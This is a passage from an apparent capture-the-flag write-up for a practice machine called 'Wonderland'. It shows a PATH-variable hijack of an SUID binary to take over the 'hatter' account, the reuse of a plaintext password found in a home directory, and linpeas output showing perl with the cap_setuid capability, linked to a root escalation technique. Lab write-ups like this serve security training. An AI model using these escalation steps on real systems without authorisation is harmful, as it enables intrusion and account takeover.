 2. We can now move around to find that there is an SUID executable in the `rabbit's home dir`. This can we our way in. We can 't read it ont he machine as the *strings is broken*. Let's explore it on our end.

3. Going through the [file](ssh/rabbit/teaParty), we find that we include a `date` binary without an absolute path. We can include our own malicious date with `PATH` variable hijacking.

```bash
rabbit@wonderland:/tmp$ touch date
rabbit@wonderland:/tmp$ vim date 
rabbit@wonderland:/tmp$ chmod +x date 
rabbit@wonderland:/tmp$ which date 
/tmpdate
rabbit@wonderland:/tmp$ echo $PATH 
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
rabbit@wonderland:/tmp$ which da
dash  date  
rabbit@wonderland:/tmp$ which date 
/tmp/date
rabbit@wonderland:/tmp$ cd 
rabbit@wonderland:~$ ls
teaParty
rabbit@wonderland:~$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$ whoami
hatter
```

## HORIZONTAL ESC - HATTER

1. We get the plaintext password lying around in the home directory. We can login using these creds on the machine to get a full fledged shell.

2. Basic things din't return any path to escalate. 

3. Ran through the linpeas results and found that `perl` have SUDO Capabilities - *CAP_SETUID*. We can use the [following](https://gtfobins.github.io/gtfobins/perl/#capabilities) to escalate to root. To also gain more knowledge, here is some [help](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_setuid).

```bash
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                            
Current capabilities:                                                                                   
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
